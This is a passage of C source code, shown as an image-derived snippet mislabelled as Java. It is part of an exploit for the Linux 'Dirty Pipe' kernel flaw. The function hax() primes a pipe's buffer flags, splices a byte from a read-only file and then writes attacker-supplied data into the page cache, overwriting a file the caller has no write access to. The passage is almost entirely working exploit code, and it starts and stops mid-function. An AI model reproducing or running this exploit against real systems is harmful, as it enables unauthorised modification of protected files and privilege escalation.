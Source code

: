 ```java
    write(p[1], buffer, n);
    r -= n;
  }

  /* drain the pipe, freeing all pipe_buffer instances (but
     leaving the flags initialized) */
  for (unsigned r = pipe_size; r > 0;) {
    unsigned n = r > sizeof(buffer) ? sizeof(buffer) : r;
    read(p[0], buffer, n);
    r -= n;
  }

  /* the pipe is now empty, and if somebody adds a new
     pipe_buffer without initializing its "flags", the buffer
     will be mergeable */
}

int hax(char *filename, long offset, uint8_t *data, size_t len) {
  /* open the input file and validate the specified offset */
  const int fd = open(filename, O_RDONLY); // yes, read-only! :-)
  if (fd < 0) {
    perror("open failed");
    return -1;
  }

  struct stat st;
  if (fstat(fd, &st)) {
    perror("stat failed");
    return -1;
  }

  /* create the pipe with all flags initialized with
     PIPE_BUF_FLAG_CAN_MERGE */
  int p[2];
  prepare_pipe(p);

  /* splice one byte from before the specified offset into the
     pipe; this will add a reference to the page cache, but
     since copy_page_to_iter_pipe() does not initialize the
     "flags", PIPE_BUF_FLAG_CAN_MERGE is still set */
  --offset;
  ssize_t nbytes = splice(fd, &offset, p[1], NULL, 1, 0);
  if (nbytes < 0) {
    perror("splice failed");
    return -1;
  }
  if (nbytes == 0) {
    fprintf(stderr, "short splice\n");
    return -1;
  }

  /* the following write will not create a new pipe_buffer, but
     will instead write into the page cache, because of the
     PIPE_BUF_FLAG_CAN_MERGE flag */
  nbytes = write(p[1], data, len);
  if (nbytes < 0) {
    perror("write failed");
    return -1;
  }
  if ((size_t)nbytes < len) {
    fprintf(stderr, "short write\n");
    return -1;
  }
```